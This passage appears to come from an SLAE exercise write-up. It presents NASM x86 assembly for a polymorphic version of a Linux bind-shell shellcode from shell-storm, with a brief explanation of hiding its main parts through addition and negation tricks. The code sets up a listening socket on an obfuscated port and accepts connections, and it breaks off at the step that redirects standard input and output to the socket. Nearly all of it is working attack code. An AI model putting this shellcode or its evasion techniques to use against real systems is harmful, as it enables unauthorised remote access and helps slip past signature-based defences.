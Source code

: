 In order to maintain the same size of the shellcode while creating a polymorphic code, the following goals must be achieved:

* Optimizing the current shellcode to save space
* Combining addition/negation techniques to hide the main parts of the code

````
; Filename: poly_shellcode_672.nasm
; Author:  Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       97 bytes (0%)
; Purpose: Polymorphic version of shellcode found on http://shell-storm/shellcode/files/shellcode-672.php

global _start			

section .text
_start:

;socket creation
	push   0x66
	push   0x1
	pop    ebx
	pop    eax
	cdq
	push   edx
	push   ebx
	push   0x2
	mov    ecx,esp
	int    0x80
;binding socket to port
	mov    esi,eax
	push   0x66
        pop    eax
	inc    ebx
	push   edx
	mov    di,0x15fd     ;port number plus one in network order 
	dec    edi           ;polymorph technique to get the desired port number
	push   edi
	push   bx
	mov    ecx,esp
	push   0x10
	push   ecx
	push   esi
	mov    ecx,esp
	int    0x80
;listening for incoming connections
        push   0x66
	inc    ebx
	inc    ebx
        pop    eax
	push   0x5
	push   esi
	int    0x80
;accepting incoming connections
        push   0x66
	inc    ebx
        pop    eax
	push   edx
	push   edx
	push   esi
	mov    ecx,esp
	int    0x80
;redirecting STDIN,STDOUT to the socket
;using this code is possible optimize the original code
````